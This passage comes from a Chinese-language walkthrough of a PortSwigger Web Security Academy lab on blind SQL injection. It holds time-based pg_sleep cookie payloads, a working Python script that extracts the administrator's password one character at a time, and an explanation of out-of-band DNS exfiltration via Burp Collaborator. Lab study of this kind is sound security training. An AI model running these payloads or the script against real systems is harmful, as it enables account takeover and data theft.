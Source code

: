     Cookie: TrackingId=5sdFcXvFUqhv4j2D'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>19)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--;

    Cookie: TrackingId=5sdFcXvFUqhv4j2D'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--;
    ```
4. 寫程式取得 administrator 的密碼並繳交完成此 Lab：
    ```python
    import requests as re
    from time import time

    chars = []

    for i in range(97,122+1):
        chars.append(chr(i))

    for i in range(0,10):
        chars.append(str(i))

    headers = {
        'Host': '0a35000c04985190808b627b00d90035.web-security-academy.net',
        'Cookie': "TrackingId=5sdFcXvFUqhv4j2D'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--;"
        }

    ans = ''

    for i in range(1, 20+1):
        for j in chars:
            headers['Cookie'] = f"TrackingId=5sdFcXvFUqhv4j2D'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{i},1)='{j}')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--;"

            start_time = time()
            receive = re.get('https://0a35000c04985190808b627b00d90035.web-security-academy.net/', headers=headers)
            end_time = time()
            print(f"\rIndex: {i}, Payload: {j}, Time: {end_time - start_time}, Status: {receive.status_code}", end='')
            if (end_time - start_time > 4):
                ans += j
                print()
                print(ans)
                break
    ```
:::

#### 使用帶外 (OAST) 技術利用盲注 SQL 注入

應用程式可能會執行與前面範例相同的 SQL 查詢，但會以非同步方式進行。應用程式在原始執行緒中繼續處理使用者的請求，並使用另一個執行緒來執行使用追蹤 cookie 的 SQL 查詢。該查詢仍然容易受到 SQL 注入攻擊，但到目前為止所描述的技術都不會有效。應用程式的回應不依賴於查詢回傳任何資料、資料庫錯誤的發生，或執行查詢所需的時間。

在這種情況下，通常可以透過觸發對您控制的系統的帶外網路互動來利用盲注 SQL 注入漏洞。這些互動可以基於注入的條件被觸發，以逐一推斷資訊。更有用的是，資料可以直接在網路互動中被外洩。

多種網路協定可用於此目的，但通常最有效的是 DNS（域名服務）。許多生產網路允許 DNS 查詢的自由出站，因為它們對生產系統的正常運作至關重要。

使用帶外技術最簡單且最可靠的工具是 Burp Collaborator。這是一個提供各種網路服務（包括 DNS）自訂實作的伺服器。它允許您檢測當向易受攻擊的應用程式發送個別載荷時是否發生網路互動。Burp Suite Professional 包含一個內建客戶端，配置為可以直接與 Burp Collaborator 配合使用。更多資訊請參閱 Burp Collaborator 的文件。
